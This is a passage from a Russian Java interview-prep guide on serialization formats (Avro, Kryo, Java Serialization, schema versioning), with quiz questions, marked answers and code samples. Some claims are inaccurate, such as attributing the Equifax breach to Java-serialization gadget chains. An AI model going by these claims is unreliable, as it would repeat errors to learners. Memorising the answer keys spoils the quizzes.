>     {"name": "amount", "type": "double"},
>     {"name": "currency", "type": "string", "default": "USD"},
>     {"name": "items", "type": {"type": "array", "items": "string"}}
>   ]
> }
> ```
>
> ```java
> // Kafka Producer с Schema Registry
> Properties props = new Properties();
> props.put("value.serializer", KafkaAvroSerializer.class);
> props.put("schema.registry.url", "http://schema-registry:8081");
>
> OrderEvent event = OrderEvent.newBuilder()
>     .setOrderId("ord-42").setAmount(99.99).build();
> producer.send(new ProducerRecord<>("orders", event));
> // На wire: magic_byte(0) + schema_id(4 bytes) + avro_payload
> ```
>
> **Когда применять:**
> - **Kafka event streaming** — стандарт в Confluent ecosystem; LinkedIn (создатели Kafka и Avro), Uber, Lyft.
> - **Data Lake / Lakehouse** — Apache Iceberg, Delta Lake, Hadoop HDFS хранят данные как `.avro` или `.parquet` с Avro-схемами.
> - **Schema evolution через годы** — финансовые транзакции, audit logs, событийные журналы с retention 5-7 лет.
> - **Big Data tooling** — Apache Spark, Flink, Hive имеют first-class Avro поддержку.
>
> **Подводные камни:**
> - **Schema Registry — single point of failure**: если он недоступен, producer/consumer падают. Critical: HA-deployment, кэширование schema на клиенте.
> - **`namespace` обязателен**: типы с одинаковым `name` в разных `namespace` — разные schema. Случайное совпадение ломает совместимость.
> - **Union types** (`["null", "string"]`) — first type в union считается default. `["string", "null"]` запрещён в FORWARD compatibility.
> - **Logical types** (decimal, timestamp-millis) — нужны для финансовых данных, не путать с base types.
>
> **Связанные вопросы:** [[Q26]] — Protobuf для сравнения; [[Q29]] — выбор формата под use case; [[Q31]] — Schema Registry compatibility modes.
>
> ---
>
> #### B) Avro и Protobuf — это одна и та же технология, Avro просто более ранняя версия — ❌ Неверно
>
> **Что на самом деле:** Avro и Protobuf — независимые проекты с разной философией. Protobuf (Google, 2008 open-source) — числовые теги, schema-on-write+read, идеал для RPC. Avro (Apache, 2009, создан Doug Cutting для Hadoop) — schema-binding, schema resolution, идеал для Data Lake. Они появились в одно время и решали разные задачи.
>
> **Откуда путаница:** оба бинарные, оба требуют схему, оба используются с Kafka. Junior-разработчик легко смешивает их в голове.
>
> **Если бы это было правдой:** не было бы споров «Avro vs Protobuf» в архитектурных обзорах. Confluent не строил бы экосистему вокруг Avro если бы Protobuf был «новой версией». Сейчас Confluent поддерживает оба + JSON Schema.
>
> ---
>
> #### C) Avro быстрее Protobuf в 5-10× за счёт zero-copy декодирования — ❌ Неверно
>
> **Что на самом деле:** на benchmark'ах Protobuf и Avro сопоставимы по скорости (разница 10-30% в обе стороны в зависимости от данных). Zero-copy — это про FlatBuffers/Cap'n Proto, не про Avro. Avro оптимизирован для streaming и schema resolution, не для raw decoding speed.
>
> **Откуда путаница:** в кругах Big Data Avro продвигают как «быстрый формат», что верно при сравнении с JSON или XML, но не относительно Protobuf.
>
> **Если бы это было правдой:** Google использовал бы Avro внутри для gRPC. Реальный выбор — это trade-off экосистемы (Hadoop/Kafka vs gRPC/Cloud).
>
> ---
>
> #### D) Avro требует генерации кода как Protobuf — без `avro-tools` нельзя ни читать, ни писать данные — ❌ Неверно
>
> **Что на самом деле:** Avro поддерживает **dynamic schema mode** через `GenericRecord` — можно читать/писать без кодогенерации, работая с `Map`-подобной структурой. Это уникальное преимущество Avro: загружаешь schema в runtime, парсишь данные без compile-time типов. Полезно для generic ETL pipelines, schema-agnostic kafka consumers.
>
> **Откуда путаница:** опытом из Protobuf, где `protoc` обязателен для генерации классов.
>
> **Если бы это было правдой:** Apache NiFi, Kafka Connect, Flink SQL не могли бы работать с Avro-данными generic-way. Реально они активно используют `GenericRecord` для обработки любых схем без перекомпиляции.

## Q28. Что такое `Kryo` и когда его выбирают?

`Kryo` — быстрая бинарная библиотека сериализации для JVM. Не требует реализации `Serializable`, может сериализовать любой POJO.

```java
Kryo kryo = new Kryo();
kryo.register(User.class); // регистрация для компактности

// Запись
Output output = new Output(new FileOutputStream("data.kryo"));
kryo.writeObject(output, user);
output.close();

// Чтение
Input input = new Input(new FileInputStream("data.kryo"));
User user = kryo.readObject(input, User.class);
input.close();
```

**Преимущества:**
- Очень быстрая (в 5-10x быстрее Java Serialization)
- Компактный формат
- Не требует `Serializable`
- Используется в `Apache Spark`, `Flink`, `Akka`

**Ограничения:**
- Привязан к JVM (межъязыковая совместимость отсутствует)
- Не thread-safe (нужен `ThreadLocal<Kryo>` или пул)
- Нет явной схемы — эволюция классов может ломать совместимость
- Не подходит для внешних API и долговременного хранения

**Когда использовать:** внутренние коммуникации между JVM-процессами, кэширование, распределённые вычисления.


> [!mcq]
>
> **Вопрос:** Что такое Kryo и в каких системах он используется? Какие его ключевые свойства и ограничения?
>
> ---
>
> #### A) Kryo — это межъязыковой бинарный формат как Protobuf, поддерживает Java/Python/Go из коробки — ❌ Неверно
>
> **Что на самом деле:** Kryo — **строго JVM-only**. Wire-format использует Java-специфичные конструкции (class IDs, наследование, Java collections semantics). Нет официальной поддержки других языков. Если нужна межъязыковая сериализация — Protobuf, Avro, MessagePack, FlatBuffers — но не Kryo.
>
> **Откуда путаница:** Kryo упоминается рядом с Protobuf/Avro в списках «binary serializers», и junior может предположить полную взаимозаменяемость.
>
> **Если бы это было правдой:** Apache Spark использовал бы Kryo для PySpark↔JVM коммуникации, но реально там Pickle (Python side) + Java serializer (JVM side). Cross-language путь не идёт через Kryo.
>
> ---
>
> #### B) Быстрая JVM-only библиотека (~5-10× быстрее Java Serialization); не требует `Serializable`; используется в Apache Spark, Flink, Akka, Hazelcast; **не thread-safe** — нужен `ThreadLocal<Kryo>` или pool; нет schema-эволюции — рискованно для долгосрочного хранения — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> Kryo создан Nathan Sweet в 2009 для оптимизации игровых клиентов (компактность + скорость). Его модель — рефлексия с агрессивным кэшированием. Регистрация классов через `kryo.register(MyClass.class)` присваивает короткий integer ID — это экономит байты (вместо FQCN пишется int). Без регистрации Kryo пишет полное имя класса, что больше и медленнее.
>
> Ключевая особенность — **не использует `Serializable`**. Kryo работает с любым POJO через рефлексию + бесконструкторный allocation (`Objenesis`). Это позволяет сериализовать legacy-классы без модификации. Но это же создаёт риск: можно случайно сериализовать `ClassLoader`, `Thread`, или другую системную ссылку — Kryo пройдёт по графу до конца.
>
> Главная боль — **thread-unsafety**. Каждый `Kryo` instance держит mutable state (registration cache, reference tracking buffers). Использование одного instance из нескольких threads ведёт к corruption данных, race conditions, ClassCastException. Решение: `ThreadLocal<Kryo>`, `Pool<Kryo>` (Kryo 5.x имеет встроенный `Pool`), или `KryoPool` из библиотеки kryo-pool.
>
> **Пример:**
> ```java
> // Production-grade Kryo через Pool
> Pool<Kryo> kryoPool = new Pool<>(true, false, 8) {
>     @Override
>     protected Kryo create() {
>         Kryo kryo = new Kryo();
>         kryo.register(Order.class);
>         kryo.register(OrderItem.class);
>         kryo.setReferences(true);     // для циклов
>         return kryo;
>     }
> };
>
> // Сериализация
> Kryo kryo = kryoPool.obtain();
> try (Output output = new Output(new FileOutputStream("order.kryo"))) {
>     kryo.writeObject(output, order);
> } finally {
>     kryoPool.free(kryo);
> }
> ```
>
> **Когда применять:**
> - **Apache Spark** — `spark.serializer=org.apache.spark.serializer.KryoSerializer` (рекомендован Databricks для shuffle).
> - **Apache Flink** — fallback serializer для типов вне POJO/Tuple системы.
> - **Hazelcast / Apache Ignite** — для in-memory caches между JVM-нодами.
> - **Akka remoting** — опционально через `akka.actor.serializers.kryo`.
> - **Local JVM cache в Redis** через сериализатор — компактнее и быстрее JDK.
>
> **Подводные камни:**
> - **Эволюция класса**: добавление/удаление поля без миграции данных ломает чтение. Если нужна совместимость — `TaggedFieldSerializer` или явные version-fields.
> - **Регистрация по умолчанию**: `kryo.setRegistrationRequired(true)` в production — иначе атакующий может через user-input сериализовать произвольный класс (Spark CVE-2018-8024).
> - **Lambda и inner classes**: Kryo не сериализует lambda по умолчанию (нет stable serialized form). Использовать `ClosureSerializer` + регистрацию.
> - **Recursive references**: `kryo.setReferences(true)` обязательно для графов с циклами, иначе StackOverflow.
>
> **Связанные вопросы:** [[Q26]] — Protobuf как альтернатива для cross-language; [[Q29]] — выбор формата по use-case; [[Q39]] — FST как близкий аналог.
>
> ---
>
> #### C) Kryo требует обязательной реализации `Serializable` и `serialVersionUID` для каждого класса — ❌ Неверно
>
> **Что на самом деле:** Kryo сериализует **любой POJO** без `Serializable`. Это одно из его ключевых преимуществ перед стандартной Java Serialization — не нужно ретроактивно добавлять интерфейс к существующим классам. Регистрация (`kryo.register`) — отдельный механизм, не связанный с `Serializable`.
>
> **Откуда путаница:** ассоциация с JVM-сериализацией, где `Serializable` обязателен.
>
> **Если бы это было правдой:** Spark не мог бы Kryo-сериализовать произвольные RDD-элементы. Реально пользователь Spark часто работает с Scala case-классами, которые не наследуют `Serializable` по умолчанию.
>
> ---
>
> #### D) Kryo thread-safe и можно делиться одним экземпляром между tasks Spark executor'а — ❌ Неверно
>
> **Что на самом деле:** Kryo **категорически не thread-safe**. Один `Kryo` instance держит mutable state и попытка одновременного использования из 2+ threads ведёт к data corruption, не к exception. Это одна из самых частых production-ошибок при первой интеграции. Spark внутренне создаёт per-task instance именно потому, что shared невозможен.
>
> **Откуда путаница:** ассоциация с thread-safe Jackson `ObjectMapper` (после конфигурации). Разработчик переносит интуицию.
>
> **Если бы это было правдой:** Apache Spark не нуждался бы в `SerializerInstance` для каждого task. Производительность была бы выше за счёт исключения allocations.

## Q29. (!) Как выбрать формат сериализации для проекта?



| Критерий | JSON | Protobuf | Avro | Kryo | Java Ser. |
|----------|------|----------|------|------|-----------|
| REST API | ✅ | ❌ | ❌ | ❌ | ❌ |
| gRPC | ❌ | ✅ | ❌ | ❌ | ❌ |
| Kafka events | ⚠️ | ✅ | ✅ | ❌ | ❌ |
| Кэш (Redis) | ✅ | ✅ | ❌ | ✅ | ⚠️ |
| Spark/Flink | ❌ | ❌ | ✅ | ✅ | ❌ |
| RMI | ❌ | ❌ | ❌ | ❌ | ✅ |
| Отладка | ✅ | ❌ | ❌ | ❌ | ❌ |


> [!mcq]
>
> **Вопрос:** Как правильно выбрать формат сериализации между JSON / Protobuf / Avro / Kryo / Java Serialization для разных задач?
>
> ---
>
> #### A) Универсальный выбор — JSON: подходит для REST API, gRPC, Kafka, Spark и кэша Redis — ❌ Неверно
>
> **Что на самом деле:** JSON хорош для REST API и debugging, но проигрывает по другим axes. Для gRPC он несовместим (контракт gRPC = Protobuf). Для Kafka events на высоких throughput JSON тратит 5-10× больше байт + парсинг медленнее. Для Spark shuffle JSON катастрофичен — Kryo/Java-native быстрее в десятки раз.
>
> **Откуда путаница:** JSON «работает везде» в смысле library support, но «работает» ≠ «оптимально». Junior смешивает доступность и пригодность.
>
> **Если бы это было правдой:** не было бы существования Protobuf, Avro, MessagePack — они исчезли бы как ненужные. Реальность: Netflix хранит метаданные видео в JSON для совместимости, но billion-events/day в Avro.
>
> ---
>
> #### B) Выбор формата зависит только от скорости — нужно всегда брать самый быстрый формат, остальное вторично — ❌ Неверно
>
> **Что на самом деле:** скорость — лишь одно из 5+ измерений. Critical axes: (1) межъязыковость (JVM-only vs cross-language), (2) схема и эволюция, (3) человекочитаемость для debugging, (4) экосистема (gRPC?, Kafka?, Spark?), (5) безопасность (RCE risk). Самый быстрый Kryo бесполезен для REST API (только JVM). Самый компактный FlatBuffers неудобен для аудита.
>
> **Откуда путаница:** benchmark-driven thinking — разработчик видит «Kryo в 10× быстрее JSON» и заключает что Kryo всегда лучше.
>
> **Если бы это было правдой:** Twitter не использовал бы JSON в публичном API. Real-world: trade-off многомерный, скорость не доминирует.
>
> ---
>
> #### C) Decision matrix по use-case: **REST API** → JSON (Jackson); **gRPC** → Protobuf (обязательно); **Kafka events с schema evolution** → Avro + Schema Registry; **Spark/Flink shuffle** → Kryo; **Redis cache между JVM** → Kryo или JSON в зависимости от observability нужд; **legacy RMI** → Java Serialization с `ObjectInputFilter`; **mobile API с экономией трафика** → Protobuf — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> Выбор формата — архитектурное решение с долгосрочными последствиями. Правильная декомпозиция: сначала определить **контекст использования** (граница системы, аудитория данных), затем приоритеты (performance vs human-readable vs evolution), наконец конкретный формат.
>
> Ключевые правила: (1) **external API** (публичный) → JSON, потому что любой клиент его поддержит и можно дебажить через curl; (2) **internal RPC** → Protobuf если выбран gRPC, иначе JSON; (3) **event streaming** с retention годами → Avro с Schema Registry, потому что schema evolution критична; (4) **cache** с горячими данными → Kryo для скорости, JSON если важно мониторить содержимое через redis-cli; (5) **Big Data** → Avro/Parquet (storage), Kryo (shuffle); (6) **legacy** → не трогать, добавить `ObjectInputFilter`, планировать миграцию.
>
> **Пример:**
> ```yaml
> # decision-matrix.yaml — реальный проект e-commerce
> formats:
>   external_rest_api:
>     format: JSON
>     library: Jackson
>     reason: "Public API, debugging, mobile clients"
>
>   internal_grpc:
>     format: Protobuf
>     library: protobuf-java + grpc-java
>     reason: "Inter-service RPC, strong contracts, code-gen"
>
>   kafka_order_events:
>     format: Avro
>     registry: Confluent Schema Registry
>     compatibility: BACKWARD
>     reason: "Long retention (7y), schema evolution critical"
>
>   redis_session_cache:
>     format: Kryo
>     reason: "JVM-only, short-lived, speed > human-readability"
>
>   spark_etl_shuffle:
>     format: Kryo
>     reason: "Performance critical, internal to job"
>
>   legacy_rmi_endpoint:
>     format: Java Serialization
>     filter: "com.example.dto.*;!*"
>     migration_target: "Q3 2026"
>     reason: "Cannot break clients, hardened with filter"
> ```
>
> **Когда применять:**
> - **Архитектурный review** — этот фреймворк помогает обосновать выбор перед security/perf review.
> - **Greenfield проект** — выбор формата на старте определяет 5+ лет техдолга.
> - **Migration** — анализ существующих интеграций по той же матрице для priorization.
> - **Cross-team API контракт** — JSON Schema или Protobuf `.proto` как single source of truth.
>
> **Подводные камни:**
> - **Не смешивать форматы в одном слое**: если Kafka topic — Avro, все consumer'ы должны быть Avro. Mixed topics ломают consumer groups.
> - **JSON ≠ всегда дёшево**: для events 100K msg/s парсинг JSON может стать bottleneck, CPU bound. Profile до выбора.
> - **Protobuf без `optional`**: в proto3 default значения неотличимы от «не задано». Если semantics важна — proto3 `optional` keyword (Protobuf 3.15+).
> - **Kryo + cross-version JVM upgrade**: смена JDK (8→17) может изменить `serialVersionUID`-эквивалент или semantics коллекций. Тестировать.
>
> **Связанные вопросы:** [[Q26]] — Protobuf детали; [[Q27]] — Avro и Schema Registry; [[Q28]] — Kryo; [[Q30]] — почему не Java Serialization в микросервисах.
>
> ---
>
> #### D) Для микросервисов всегда нужно использовать Java Serialization — это стандарт JDK, не требует зависимостей — ❌ Неверно
>
> **Что на самом деле:** Java Serialization в микросервисах — **антипаттерн**. Привязывает к JVM (Python/Go клиенты невозможны), несовместима между версиями классов (rolling deploy ломается), создаёт attack surface для RCE через gadget chains, неотлаживаема (бинарный формат). См. Q30 для развёрнутого ответа.
>
> **Откуда путаница:** «standard JDK = best practice» — ошибочная эвристика. JDK содержит много deprecated/legacy API.
>
> **Если бы это было правдой:** Netflix, Uber, Lyft использовали бы Java Serialization для inter-service. Реально: все используют gRPC + Protobuf или Kafka + Avro/JSON. Java Serialization осталась в RMI и legacy fat-clients.

## Q30. (!) Почему в микросервисах обычно избегают `Java Serialization`?

Стандартная `Java Serialization` создаёт ряд проблем в микросервисной архитектуре:

1. **Сильная связность** — сервисы должны иметь идентичные версии классов. При rolling deploy разные версии несовместимы.
2. **Привязка к JVM** — невозможно взаимодействовать с сервисами на `Python`, `Go`, `Node.js`
3. **Безопасность** — gadget chains делают приём данных извне крайне опасным
4. **Наблюдаемость** — бинарный формат нечитаем, нельзя залогировать или проинспектировать в инструментах мониторинга
5. **Производительность** — парадоксально, Java Serialization медленнее большинства альтернатив из-за рефлексии и метаданных
6. **Эволюция контрактов** — нет механизма версионирования схем, нет Schema Registry



В микросервисах используют: `JSON` (для REST API), `Protobuf` (для gRPC), `Avro` (для event streaming с [Kafka](../../messaging/kafka-interview.md)). Подробнее о сериализации в контексте обмена сообщениями: [Apache Kafka](../../messaging/kafka-interview.md).


> [!mcq]
>
> **Вопрос:** Почему в современной микросервисной архитектуре Java Serialization обычно избегается?
>
> ---
>
> #### A) Java Serialization деprecated в Java 17 и удалён из JDK — компилятор откажется собирать код с `Serializable` — ❌ Неверно
>
> **Что на самом деле:** `Serializable` интерфейс **не deprecated** и не удалён. Он жив в Java 21 и далее. JEP 154 (2014) предлагал deprecate Java Serialization, но был отложен — слишком много кода зависит. JEP 415 (Java 17) добавил `setSerialFilterFactory` для усиления безопасности, но не удалил функционал.
>
> **Откуда путаница:** реальный план Oracle — постепенное вытеснение через JEP 154 + JEP 290 (filtering). Junior может это слышать как «уже deprecated».
>
> **Если бы это было правдой:** миллионы существующих Java-приложений с RMI, JCache, Hibernate L2 cache не собирались бы на Java 17+. Никакого массового breakage не было.
>
> ---
>
> #### B) Java Serialization медленнее JSON в 10× — это единственная причина её избегать — ❌ Неверно
>
> **Что на самом деле:** Java Serialization действительно медленна (рефлексия + метаданные), но это **далеко не главная проблема**. Куда важнее: (1) tight coupling по классам, (2) JVM-only, (3) RCE через gadget chains, (4) непрозрачный бинарный формат, (5) нет schema evolution. Эти проблемы качественные, не количественные.
>
> **Откуда путаница:** «performance» — простая метрика, проще обсуждать чем architectural concerns.
>
> **Если бы это было правдой:** достаточно было бы перейти на Kryo (быстрее Java Ser. в 5-10×). Реально Kryo тоже не используют для микросервисов — JVM-only лишает межъязыковости.
>
> ---
>
> #### C) Главная причина — Java Serialization не поддерживает шифрование данных в потоке — ❌ Неверно
>
> **Что на самом деле:** шифрование — orthogonal к формату сериализации. Любой формат (JSON/Protobuf/Java Ser.) можно зашифровать через `CipherOutputStream`. Protobuf не имеет «встроенного шифрования», как и Java Serialization. Шифрование решается на transport уровне (TLS) или wrapper-stream'ом.
>
> **Откуда путаница:** смешение concerns — сериализация формата и cryptography.
>
> **Если бы это было правдой:** Protobuf тоже надо было бы избегать (он тоже не шифрует). Реальная причина отказа от Java Ser. — другая.
>
> ---
>
> #### D) Tight coupling между сервисами по версии класса (rolling deploy ломается); привязка к JVM (нельзя интегрировать Python/Go клиентов); RCE через gadget chains (Equifax, Jenkins CVE); нет читаемости в логах и Kibana; нет schema evolution (как в Avro/Protobuf reserved); медленнее современных альтернатив — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> В микросервисной архитектуре сервисы должны быть **слабо связаны**, **независимо развёртываемы** и **межъязыково совместимы**. Java Serialization нарушает каждый из этих принципов. Tight coupling: если Service A сериализует `Order v2`, а Service B имеет в classpath `Order v1` — `InvalidClassException` или silent data loss. Rolling deploy блокируется: нельзя иметь в кластере одновременно v1 и v2 pod'ы. Это убивает Canary deployments, Blue-Green deploys, A/B testing на инфраструктурном уровне.
>
> JVM-привязка отрезает целые экосистемы: Python ML-сервисы, Go API gateways, Node.js BFF — никто не может десериализовать Java-ser stream. Это толкает к ad-hoc REST endpoints с JSON-обёртками вокруг binary-данных, что приводит к двойному сериализации.
>
> Безопасность — главный риск в 2020-2024. Equifax 2017 (147M записей через Apache Struts CVE-2017-5638), Jenkins (CVE-2017-1000353), WebLogic (CVE-2015-4852) — все используют gadget chains в Java Serialization. Атакующий формирует поток, который при `readObject` вызывает цепочку методов в Commons Collections / Spring → `Runtime.exec()`. ObjectInputFilter (JEP 290) — patch, но не silver bullet.
>
> Наблюдаемость: бинарный формат нечитаем в Kibana, Grafana, Splunk. Нельзя `grep "userId=42"` по логам Kafka. Debugging запроса требует прогона через ObjectInputStream — невозможно в production.
>
> **Пример:**
> ```mermaid
> graph LR
>   subgraph "Anti-pattern: Java Ser. в микросервисах"
>     A1[Service A<br/>Java 17, Order v2] -->|byte stream| B1[Service B<br/>Java 11, Order v1]
>     B1 -->|InvalidClassException| X[Failed deploy]
>   end
>   subgraph "Best practice"
>     A2[Service A<br/>Java/Kotlin] -->|Protobuf/JSON| B2[Service B<br/>Python/Go/Java]
>     A2 -->|Schema Registry| SR[Compatibility check]
>   end
>   style X fill:#ffcdd2
> ```
>
> **Когда применять:**
> - Это **AVOID list**: вместо Java Ser. использовать JSON/Protobuf/Avro для inter-service.
> - **Исключения** где Java Ser. ещё допустима: legacy RMI endpoints с миграционным планом; Hazelcast/Apache Ignite distributed cache внутри одной JVM-кластерной системы (но рекомендуется Kryo); Hibernate L2 cache (но Hibernate сам ушёл на JSON-based serializers в 6.x).
> - В этих исключениях **обязательно** `ObjectInputFilter` whitelist + мониторинг через JFR.
>
> **Подводные камни:**
> - **Spring Session по умолчанию использует Java Ser.** для атрибутов в Redis. Если объекты сессии содержат gadget-классы — risk. Mitigation: `spring.session.redis.serializer=json`.
> - **Hazelcast Default**: Hazelcast IMap.put сериализует Java Ser. по умолчанию. Включить Kryo или Portable.
> - **Kafka Java Serializer** (`StringSerializer`/`ByteArraySerializer`) — НЕ Java Ser., это просто primitive serializers. Но JsonSerializer внутри Spring Kafka может использовать Jackson — ОК.
> - **Migration legacy RMI** — болезненна. Часто переписывают на gRPC + Protobuf или REST + JSON, сохраняя interface signatures.
>
> **Связанные вопросы:** [[Q15]] — security риски Java Ser.; [[Q17]] — `ObjectInputFilter` для legacy; [[Q29]] — выбор формата по use-case; [[Q31]] — schema versioning.

## Q31. Как организовать версионирование схем в микросервисной архитектуре?

Версионирование схем — критически важная практика при эволюции API. Основные подходы:

**1. Protobuf — версионирование через правила совместимости:**
```protobuf
message User {
  string name = 1;
  int32 age = 2;
  // v2: добавлено новое поле (backward compatible)
  string email = 3;
  // НЕЛЬЗЯ: менять тип поля, переиспользовать удалённые номера
  reserved 5, 6;        // зарезервировать удалённые номера
  reserved "old_field"; // зарезервировать удалённые имена
}
```

**2. Avro + Schema Registry:**
```
Producer → Schema Registry → Consumer
   ↓            ↓               ↓
 Writer      Хранение        Reader
 Schema      + проверка       Schema
             совместимости
```

Режимы совместимости в Schema Registry:
- **BACKWARD** — новый код читает старые данные (добавление полей с default)
- **FORWARD** — старый код читает новые данные (удаление полей с default)
- **FULL** — оба направления
- **NONE** — без проверок (опасно)

**3. JSON — версионирование через URL или заголовки:**
```
GET /api/v1/users   → UserDto v1
GET /api/v2/users   → UserDto v2
Accept: application/vnd.api.v2+json
```


> [!mcq]
>
> **Вопрос:** Какие основные подходы к версионированию схем существуют для Protobuf, Avro и JSON, и какие compatibility modes есть в Schema Registry?
>
> ---
>
> #### A) Protobuf — `reserved` теги + правила добавления полей (`int32` field=N с default); Avro + Confluent Schema Registry — режимы BACKWARD/FORWARD/FULL/NONE, валидация при регистрации; JSON — URL versioning (`/api/v1/`) или media-type (`Accept: application/vnd.api.v2+json`) — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> Schema versioning — это контракт между producer и consumer данных, эволюционирующий во времени. У каждого формата свой механизм.
>
> **Protobuf**: schema эволюционирует через правила на уровне `.proto` файла. Добавление поля с новым тегом — backward+forward compatible (старый клиент игнорирует, новый использует default). Удаление поля — нужно `reserved 5; reserved "old_field_name";` чтобы тег нельзя было переиспользовать. Смена типа поля несовместима кроме узкого набора (int32↔uint32↔bool). Buf или Bazel-based linters проверяют правила в CI.
>
> **Avro + Schema Registry**: Confluent Schema Registry (или Apicurio) держит реестр всех schemas с версиями. При регистрации новой версии проверяется compatibility:
> - **BACKWARD** (default) — новая schema может читать старые данные. Можно: удалить поле, добавить optional. Нельзя: убрать обязательное поле, добавить required без default.
> - **FORWARD** — старая schema читает новые данные. Зеркально к BACKWARD.
> - **FULL** — оба направления, самый строгий.
> - **NONE** — отключить проверки (опасно).
>
> **JSON**: schema-less по природе, но в production применяют JSON Schema + URL/media-type versioning. URL versioning (`/v1/orders` vs `/v2/orders`) — простой, но fragmentates кодовую базу. Media-type (`Accept: application/vnd.example.v2+json`) — RESTful, требует content negotiation на server side. Кроме того, sender can be lenient (NON_NULL omission) — consumer должен tolerate unknown fields (`@JsonIgnoreProperties(ignoreUnknown=true)` в Jackson).
>
> **Пример:**
> ```protobuf
> // v2.proto — эволюция от v1
> message User {
>   string name = 1;
>   int32 age = 2;
>   reserved 3, 4;              // удалённые в v1.5 теги
>   reserved "phone", "fax";    // удалённые имена
>   string email = 5;           // новое поле, default ""
>   repeated string roles = 6;  // новое поле, default []
> }
> ```
>
> ```yaml
> # Confluent Schema Registry — настройка compatibility
> # POST /config/{subject}
> {
>   "compatibility": "BACKWARD"
> }
> # Проверка при регистрации:
> # POST /subjects/order-value/versions
> # — Schema Registry rejects если новая schema нарушает BACKWARD
> ```
>
> ```java
> // Spring Boot REST — media-type versioning
> @GetMapping(value = "/orders/{id}",
>     produces = "application/vnd.example.v2+json")
> public OrderDtoV2 getOrderV2(@PathVariable Long id) { ... }
>
> @GetMapping(value = "/orders/{id}",
>     produces = "application/vnd.example.v1+json")
> public OrderDtoV1 getOrderV1(@PathVariable Long id) { ... }
> ```
>
> **Когда применять:**
> - **Kafka events** в LinkedIn, Confluent Cloud, Uber — обязательно BACKWARD через Schema Registry.
> - **gRPC API** — Buf CLI для статической проверки `.proto` совместимости в CI (Buf Schema Registry для Google's Stripe-style).
> - **Public REST API** — URL versioning, deprecation timeline 6-12 месяцев + `Deprecation` header + `Sunset` header (RFC 8594).
> - **Internal REST** — tolerant reader + media-type, эволюция без bumping версии.
>
> **Подводные камни:**
> - **BACKWARD не гарантирует data correctness**: добавил поле `currency` с default "USD" — все old events будут читаться как USD, даже если они были EUR. Schema compatibility ≠ semantic compatibility.
> - **Schema Registry == single point of failure**: HA-deployment обязателен. Producer кэширует schemas — но первый запуск при недоступном registry падает.
> - **Protobuf — поле с тегом >15 занимает 2 байта**: для горячих полей оставлять теги 1-15.
> - **`oneof` в Protobuf**: нельзя добавлять/удалять поля из существующего `oneof` без слома совместимости.
>
> **Связанные вопросы:** [[Q26]] — Protobuf детали; [[Q27]] — Avro в Schema Registry; [[Q5]] — Java native `serialVersionUID` для контраста.
>
> ---
>
> #### B) Главный способ — bumping major version в URL (`/v1/`, `/v2/`, `/v3/`); это решает все проблемы совместимости — ❌ Неверно
>
> **Что на самом деле:** URL versioning — лишь **один** из подходов, и только для REST. Для Kafka events, gRPC, Hadoop файлов он неприменим. И даже для REST URL-versioning имеет минусы: fragments codebase (нужны parallel handlers v1, v2, v3), не помогает с tolerance к unknown fields, удваивает support burden.
>
> **Откуда путаница:** наглядный, простой подход, который видно в README любого API. Junior воспринимает его как «универсальное решение».
>
> **Если бы это было правдой:** Stripe API (известный за тщательное versioning) не использовал бы date-based versioning (`Stripe-Version: 2023-10-16`). Они выбрали media-type стиль именно из-за минусов URL versioning.
>
> ---
>
> #### C) Все форматы обеспечивают автоматическую совместимость — достаточно не менять имена полей — ❌ Неверно
>
> **Что на самом деле:** автоматической совместимости нет — каждый формат требует **явных правил**. Protobuf — `reserved` теги. Avro — Schema Registry compatibility checks. Java Serialization — `serialVersionUID` + правила. JSON — tolerant reader pattern. Без знания правил совместимость ломается.
>
> **Откуда путаница:** маркетинговые слова «schema evolution» в documentation создают иллюзию автоматизма.
>
